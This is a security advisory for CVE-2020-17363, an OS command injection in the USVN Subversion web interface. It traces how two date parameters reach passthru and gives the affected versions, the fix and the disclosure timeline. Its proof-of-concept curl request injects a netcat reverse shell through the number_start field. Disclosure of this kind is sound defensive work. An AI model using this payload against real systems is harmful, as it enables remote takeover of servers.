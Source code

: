 # [2020-17363] USVN OS Command injection

## Description

User-Friendly USVN is a web interface written in PHP used to configure Subversion repositories.

We found an OS command injection inside the Timeline module that can be used by an authenticated user to execute arbitrary command over the system.

**Threat**

In the case where an attacker has access to a USVN repository, he would be able to remotely take control over the system.

**Expectation**

User inputs have to be filtered and controlled to verify their type before being used by the application.

## Vulnerability records

**CVE ID**: CVE-2020-17363

**Access Vector**: Network

**Security Risk**: Critical

**Vulnerability**: CWE-78

**CVSS Base Score**: 9.9

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H

## Details


While analyzing the source code of the application, we noticed a PHP function named `lasthundredrequestAction` used to print the last hundred commit made to a project:

```
public function lasthundredrequestAction()
{
  [...]
  $this->_project = $project;
  $this->view->project = $this->_project;
  $SVN = new USVN_SVN($this->_project->name);
  try {
  	$number_start = $project = $this->getRequest()->getParam('number_start');
  	$number_end = $project = $this->getRequest()->getParam('number_end');
  	$this->view->number_start = $number_start;
  	$this->view->number_end = $number_end;
  	$number_end = $this->convertDate($number_end);
  	$number_start = $this->convertDate($number_start);
  	$this->view->log = $SVN->log(100, $number_start, $number_end);
  	[...]
```

Two user arguments named `number_start` and `number_end` are then given to the `convertDate` and `log` functions:

  * The `convertDate` function just explode the given parameters:

    ```
    protected function convertDate($number)
    {
      if (strstr($number, '/') != FALSE) {
        $split = explode('/', $number);
        $jour = $split[0];
        $mois = $split[1];
        $annee = $split[2];
        return '{'.$annee.$mois.$jour.'}';
      }
      return $number;
    }
    ```

  * The `log` function just prepare the command arguments that will be executed:

  ```
  public static function log($repository, $limit = 0, $start = 0, $end = 0)
  {
    $limit = "--limit $limit";
    [...]
  	if ($start){
  		$revision = "-r $start";
  		if ($end){
  			$revision.=":$end";
  	[...]
  	$message = USVN_ConsoleUtils::runCmdCaptureMessageUnsafe(USVN_SVNUtils::svnCommand("log --xml $revision $limit $repository"), $return);
  ```

The previous prepared arguments are finally given to the `runCmdCaptureMessageUnsafe` function that will execute the OS command:

```
static public function runCmdCaptureMessageUnsafe($command, &$return)
{
	USVN_ConsoleUtils::prepareLang();
	ob_start();
	passthru($command . " 2>&1", $return);
  [...]
```

So in order to exploit the vulnerability we can just submit the OS command in the `Start` or `End` field:

```
curl -X $'POST' -H $'Cookie: PHPSESSID=cf4d8ccb1ad95850a627b0eb0732712e' --data-binary $'number_start=01/01/2020$(nc 192.168.1.94 4444 -c bash)&number_end=&LastHundredRequest=Rechercher' $'http://192.168.1.94:8090/project/testProject/LastHundredRequest'
```

Here is a screenshot of the exploited vulnerability (using curl and netcat tools):

![Exploitation example](poc.png)


## Affected versions

- USVN versions < 1.0.8

## Solution

- Update to USVN >= 1.0.9

## Timeline (dd/mm/yyyy)

* 2020-05-07 Initial discovery.
* 2020-05-13 Report to the USVN security team
* 2020-05-18 USVN acknowledgement stating that the report is under review.
* 2020-05-18 Command injection fix published (http://www.usvn.info/2020/05/20/usvn-1.0.9).
* 2020-08-12 Disclosure.

## Credits

* Mickael KARATEKIN <mickael.karatekin -at- tnpconsultants.com>
